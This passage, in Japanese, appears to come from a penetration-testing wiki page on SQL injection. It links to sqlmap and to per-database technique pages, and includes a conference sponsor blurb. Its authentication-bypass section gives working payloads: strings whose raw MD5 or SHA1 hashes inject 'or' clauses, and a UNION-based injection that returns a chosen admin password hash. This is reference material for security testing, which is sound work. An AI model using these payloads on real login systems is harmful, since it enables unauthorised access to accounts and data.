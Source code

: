 [SQLMap Cheatsheet](sqlmap/)を確認して、[**sqlmap**](https://github.com/sqlmapproject/sqlmap)を使用してSQLi脆弱性を悪用してください。

## 技術特有の情報

SQLインジェクション脆弱性を悪用する方法についてはすでに議論しました。この本では、データベース技術に依存するいくつかのトリックを見つけてください：

* [MS Access](ms-access-sql-injection.md)
* [MSSQL](mssql-injection.md)
* [MySQL](mysql-injection/)
* [Oracle](oracle-injection.md)
* [PostgreSQL](postgresql-injection/)

また、**MySQL、PostgreSQL、Oracle、MSSQL、SQLite、HQLに関する多くのトリックが** [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)にあります。



<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​[**RootedCON**](https://www.rootedcon.com/)は、**スペイン**で最も関連性の高いサイバーセキュリティイベントであり、**ヨーロッパ**で最も重要なイベントの一つです。**技術知識の促進を使命として**、この会議はあらゆる分野の技術とサイバーセキュリティの専門家の熱い交流の場です。

{% embed url="https://www.rootedcon.com/" %}

## 認証バイパス

ログイン機能をバイパスするために試すリスト：

{% content-ref url="../login-bypass/sql-login-bypass.md" %}
[sql-login-bypass.md](../login-bypass/sql-login-bypass.md)
{% endcontent-ref %}

### 生のハッシュ認証バイパス
```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```
このクエリは、認証チェックで生の出力に対してtrueを使用した場合にMD5が脆弱性を示すことを示しています。これにより、システムはSQLインジェクションに対して脆弱になります。攻撃者は、ハッシュ化されたときに予期しないSQLコマンドの一部を生成する入力を作成することでこれを悪用し、不正アクセスを引き起こすことができます。
```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```
### 注入されたハッシュ認証バイパス
```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```
**推奨リスト**:

各行のリストをユーザー名として使用し、パスワードは常に: _**Pass1234.**_\
_(このペイロードは、このセクションの最初で言及された大きなリストにも含まれています)_

{% file src="../../.gitbook/assets/sqli-hashbypass.txt" %}
